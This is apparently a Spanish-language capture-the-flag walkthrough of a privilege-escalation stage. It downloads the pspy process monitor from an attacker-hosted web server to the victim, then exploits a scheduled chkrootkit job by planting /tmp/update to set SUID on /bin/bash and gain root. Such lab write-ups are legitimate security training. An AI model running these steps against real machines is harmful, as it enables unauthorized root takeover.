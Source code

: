 ## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
ls -la
id
sudo -l
cd /root
```

Aqui no vemos nada interesante y no podemos entrar en el directorio root.

#### Analisis de processos con PSPY {-}

instalamos la herramienta en la maquina de atacante y lo compartimos con un web server.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" main.go
upx main
mv main pspy
python3 -m http.server 80
```

Desde la maquina victima, downloadeamos el fichero y lo lanzamos

```bash
wget http://10.10.14.8/pspy
chmod +x pspy
./pspy
```

Esperamos un poco y vemos que hay un script `/usr/bin/chkrootkit` que se ejecuta a interval regular de tiempo.

#### Priviledge escalation con chkrootkit {-}

```bash
searchsploit chkrootkit
```

Ya vemos que hay un exploit para Local Priviledge Escalation. Lo analizamos.

```bash
searchsploit -x 33899
```

Creamos un fichero llamado update en tmp

```bash
cd /tmp
echo '#!/bin/bash\n\nchmod 4755 /bin/bash' > update
chmod +x update
watch -n 1 ls -l /bin/bash
```

Ya podemos utilizar bash para convertirnos en root

```bash
bash -p
whoami
#Output

root
```

Ya hemos rooteado la maquina y podemos ver la flag.

